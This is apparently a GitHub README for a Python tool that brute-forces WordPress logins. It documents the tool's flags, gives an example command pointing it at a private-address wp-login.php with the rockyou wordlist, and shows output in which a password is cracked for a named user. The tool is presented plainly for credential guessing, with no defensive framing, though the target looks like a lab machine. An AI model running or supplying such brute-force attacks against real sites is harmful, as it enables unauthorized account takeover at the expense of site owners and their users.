# python-wp-bruteforce 🔥🚀
python Bruteforce login script for wordpress 👻

* -p = file path to password list file 
* -u = valid username 
* -t = target address 

**target should should be look like this http://site.com/wp-login.php**

# example usage : 

$ python3 bf.py -u unclestinky -p /usr/share/wordlist/rockyou.txt -t http://192.168.254.105/weblog/wp-login.php 

      ____      ____ _________  ____________  ____________                         
      \   \    /   / |_____   | |______     \ |_   ______|  
       \   \/\/   /  |     ___|   |    |   _/  |    ___|         
        \        /   |    |       |    |    \  |    |     
         \__/\__/    |____|       |_________/  |____|    

                ***********************
                * By : intrglctcMilk  *  
                *     -- @tmpts       * 
                *********************** 
     
     [+] Attacking [+]
     
    [+] **** PASSWORD FOUND ***** [+] =====> [wedgie57] for user unclestinky
    [-] Time lapsed : 0.792555570602417 seconds  [-] 
    [-] Number of attempts : 15 [-]



